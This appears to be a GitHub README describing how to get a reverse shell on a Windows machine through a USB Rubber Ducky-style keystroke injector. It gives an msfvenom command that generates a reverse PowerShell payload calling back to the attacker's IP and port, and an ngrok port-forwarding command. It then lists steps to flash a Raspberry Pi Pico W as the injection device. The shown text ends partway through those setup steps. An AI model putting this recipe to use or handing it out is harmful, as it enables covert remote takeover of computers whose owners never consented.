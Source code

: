 # Reverse-shell-by-usb-rubber-ducky
## Introduction
A reverse shell is a type of shell in which the target machine communicates back to the attacker's machine. It is a technique often used in hacking and penetration testing for remote access to a system<br><br>
The USB Rubber Ducky is a type of programmable USB device which looks like a regular USB flash drive, but it's designed to function as a keyboard emulator. When plugged into a computer, the USB Rubber Ducky can quickly type pre-programmed keystroke payloads, essentially simulating a human typing at a very fast rate.
## Payload for reverse shell
To obtain a reverse shell from a target machine, you can utilize the MSFVenom tool to generate a Windows reverse PowerShell payload. This payload will allow you to establish a connection back to your machine, giving you remote access to the target system<br>
```msfvenom -p cmd/windows/reverse_powershell lhost=<Your_IP_Address> lport=<Your_Listening_Port> > ayush.bat ```
For port forwarding
```ngrok tcp 8080```
## Rasberry pi pico w as rubber ducky
1. Clone the repo to get a local copy of the files. `git clone https://github.com/dbisu/pico-ducky.git`
2. Download [CircuitPython for the Raspberry Pi Pico W](https://circuitpython.org/board/raspberry_pi_pico_w/). *Updated to 8.0.0
3. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
4. Copy the downloaded `.uf2` file to the root of the Pico (`RPI-RP2`). The device will reboot and after a second or so, it will reconnect as `CIRCUITPY`.
5. Download `adafruit-circuitpython-bundle-8.x-mpy-YYYYMMDD.zip` [here](https://github.com/adafruit/Adafruit_CircuitPython_Bundle/releases/latest) and extract it outside the device.
6. Navigate to `lib` in the recently extracted folder and copy `adafruit_hid` to the `lib` folder on your Raspberry Pi Pico.
7. Copy `adafruit_debouncer.mpy` and `adafruit_ticks.mpy` to the `lib` folder on your Raspberry Pi Pico.
8. Copy `asyncio` to the `lib` folder on your Pico.
9. Copy `adafruit_wsgi` to the `lib` folder on your Pico.
10. Copy `boot.py` from your clone to the root of your Pico.
11. Copy `duckyinpython.py`, `code.py`, `webapp.py`, `wsgiserver.py` to the root folder of the Pico.
    
